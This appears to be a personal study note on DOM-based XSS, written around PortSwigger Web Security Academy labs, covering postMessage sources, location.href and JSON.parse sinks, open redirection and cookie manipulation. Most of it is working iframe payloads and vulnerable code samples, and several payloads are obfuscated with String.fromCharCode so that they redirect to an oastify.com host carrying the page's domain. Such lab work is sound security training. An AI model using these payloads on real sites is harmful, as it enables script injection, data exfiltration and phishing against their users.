 ![[DOM-Based.png]]
# Recon

DOM XSS happens when client-side JavaScript takes user-controllable input and includes it into a dangerous function. Use the DevTools and go to the Sources/Debugger tab. In every page, you can search for the keyword "script" and also search through all JavaScript pages.

In these files/pages, you can search for any user-controllable sources and dangerous sinks that the JavaScript is using. Analyse if JavaScript is taking any sources and including them into dangerous sinks. Search all static JavaScript files too.
# Source - Web Messages

Use web messages as a source to send malicious data to a target window that will take in that and include it in a dangerous sink. As an example:

```html
window.postMessage("<img src=x onerror=alert(1)>")
```

And the payload may be:

```html
<iframe src="https://VULNERABLE-APPLICATION.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```

The vulnerable code may be:

```html
<script>
window.addEventListener('message', function(e) {
    document.getElementById('ads').innerHTML = e.data;
})
</script>
```

For exploitation payloads, you can use document.location to exfiltrate data and encode the payload to bypass filters. The below payload can be used to test in the DevTools console. The "String.fromCharCode" contains the following:

- `document.location = "https://m651thgj.oastify.com/?x=" + document.domain + "END"`

```html
postMessage('<img src=x onerror=alert(eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,32,61,32,34,104,116,116,112,115,58,47,47,109,104,55,121,106,109,105,97,55,46,111,97,115,116,105,102,121,46,99,111,109,47,63,120,61,34,32,43,32,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,32,43,32,34,69,78,68,34)))>')
```

The final payload for the exploit server:

```html
<iframe src="https://0a41005003b5365e82996bf000200091.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=x onerror=alert(eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,32,61,32,34,104,116,116,112,115,58,47,47,109,104,55,121,106,109,105,97,55,46,111,97,115,116,105,102,121,46,99,111,109,47,63,120,61,34,32,43,32,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,32,43,32,34,69,78,68,34)))>','*')">
```
# Source - Web Messages location.href()

Use web messages as a source to send malicious data to a target window that will take in that data and include it in a dangerous sink. As an example, the code will place the user-controllable input into the location.href sink if the message contains the string "http:"/

An example payload to test in DevTools:

```javascript
window.postMessage(“javascript:alert(1)//http:”)
```

And the final payload:

```html
<iframe src="https://VULNERABLE-APPLICATION.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```

The vulnerable code is as follows:

```html
<script>
window.addEventListener('message', function(e) {
    var url = e.data;
    if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
        location.href = url;
    }
}, false);
</script>
```

For exploitation payloads, you can use document.location to exfiltrate data and encode the payload to bypass filters. The below payload can be used to test in the DevTools console. The pseudo javascript protocol is used here as the data is inserted in href.

```javascript
postMessage('javascript:alert(eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,32,61,32,34,104,116,116,112,115,58,47,47,102,52,107,51,49,118,108,99,57,103,120,53,46,111,97,115,116,105,102,121,46,99,111,109,47,63,120,61,34,32,43,32,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,32,43,32,34,85,83,69,82,69,78,68,34)))//http:')
```

The final payload:

```html
<iframe src="https://0ac6000c045b941d800f44e400e9009d.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:alert(eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,32,61,32,34,104,116,116,112,115,58,47,47,98,114,54,122,119,122,110,110,99,46,111,97,115,116,105,102,121,46,99,111,109,47,63,120,61,34,32,43,32,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,32,43,32,34,85,83,69,82,69,78,68,34)))//http:','*')">
```
# Source - Web Messages JSON.parse()

There is a client-side script on the app that has an event listener that is listening for a web message. It is possible to submit crafted input which will be included in the "src" attribute of an \<iframe>. This is essentially the location.href sink. You can use a JavaScript pseudo-protocol payload here - \javascript:print().

```html
<iframe src=https://VULNERABLE-APPLICATION.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

The vulnerable code:

```html
<script>
window.addEventListener('message', function(e) {
    var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
    document.body.appendChild(iframe);
    try {
        d = JSON.parse(e.data);
    } catch(e) {
        return;
    }
    switch(d.type) {
        case "page-load":
            ACMEplayer.element.scrollIntoView();
            break;
        case "load-channel":
            ACMEplayer.element.src = d.url;
            break;
        case "player-height-changed":
            ACMEplayer.element.style.width = d.width + "px";
            ACMEplayer.element.style.height = d.height + "px";
            break;
    }
}, false);
</script>
```

The exploitation payload:

```html
<iframe src=https://0ab400b604252be5803512fc002b00ad.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:alert(eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,32,61,32,34,104,116,116,112,115,58,47,47,112,99,53,100,118,116,109,104,100,97,49,122,46,111,97,115,116,105,102,121,46,99,111,109,47,63,120,61,34,32,43,32,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,32,43,32,34,85,83,69,82,69,78,68,34)))\"}","*")'>
```
# DOM XSS - Open Redirection

There was a client-side script on the app that is taking in a query parameter called "url" and using the value in a location.href sink. The URL needs to begin with "https://". The JavaScript pseudo-protocol will not work here because you do not have control of the beginning of the href value. This will simply redirect a user to a different website - can be used for phishing.

An example:

- `https://VULNERABLE-APP.net/post?postId=4&url=https://user-input`

The vulnerable code:

```html
<a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>
```
# DOM XSS - Cookie Manipulation

The "window.location" source is being appended to a Cookie using the "document.cookie". This cookie value is reflected back in the app's response within an HTML attribute. Submit a crafted URL that will break out of the HTML context and execute JavaScript code.

An example context:

- `<a href='https://VULNERABLE-APP.net/product?productId=user-input`

And the payload would be:

```javascript
&'><script>print()</script>
```

>[!info]
>You need to use the & in the URL symbol to inject valid payload, since the app will throw an error if the "productId" is not valid.

The iframe will first load the vulnerable URL, which will store it in "window.location" source. Then, the onload event will redirect to another page on the app, which will trigger the JavaScript, as the URL is reflected in the response.

The final payload:

```html
<iframe src="https://VULNERABLE-APP.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://VULNERABLE-APP.net';window.x=1;">
```

The vulnerable code:

```html
<script>
   document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
</script>
```

And the exploitation payload:

```html
<iframe src="https://0ac0003e03b1155582af4721003c00da.web-security-academy.net/product?productId=1&'><script>eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,32,61,32,34,104,116,116,112,115,58,47,47,100,101,118,49,98,116,104,49,100,112,50,46,111,97,115,116,105,102,121,46,99,111,109,47,63,120,61,34,32,43,32,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,32,43,32,34,85,83,69,82,69,78,68,34))</script>" onload="if(!window.x)this.src='https://0ac0003e03b1155582af4721003c00da.web-security-academy.net';window.x=1;">
```


